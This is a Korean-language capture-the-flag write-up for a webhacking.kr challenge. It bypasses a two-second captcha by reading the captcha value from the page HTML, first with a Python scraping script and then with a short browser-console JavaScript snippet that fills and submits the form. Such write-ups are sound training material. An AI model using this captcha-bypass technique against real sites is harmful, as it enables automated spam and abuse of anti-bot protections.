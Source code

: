 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-14-32-39.png)


# **Write-Up**

상단에 보면 2초라고 되어있는데, 모든 input값을 적고 Submit까지 2초안으로 해결해야하는 문제같다.

captcah값은 매번 달라지는 듯 하다.

```html
... 생략 ...
<input type=button name=captcha_ value="xgZBWD1Lol" style="border:0;background=lightgreen">
... 생략 ...
```

python script를 짜서 돌려봤지만, 계속 Too Slow라고 한다.

```python
import urllib.request
from bs4 import BeautifulSoup

url     = 'https://webhacking.kr/challenge/code-4/'
header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22;st=1635301305'}
request = urllib.request.Request(url, headers=header)
response= urllib.request.urlopen(request)
result  = response.read().decode()
soup    = BeautifulSoup(result, "html.parser")
captcha = soup.find('input', {'name':'captcha_'}).get('value')

data    = urllib.parse.urlencode({'id':'hello', 'cmt':'world', 'captcha':captcha}).encode()
request = urllib.request.Request(url, headers=header, data=data)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
Too Slow...<meta http-equiv=refresh content=3>
```

그렇다면 javascript를 직접 입력하자. 페이지를 새로고침하자 마자 다음과 같은 script를 Console에 입력하여 엔터를 치자.

```javascript
lv5frm.id.value="hello"
lv5frm.cmt.value="world"
lv5frm.captcha.value=lv5frm.captcha_.value
lv5frm.submit()
```

점수를 획득할 수 있다.

![](images/2022-01-03-14-33-24.png)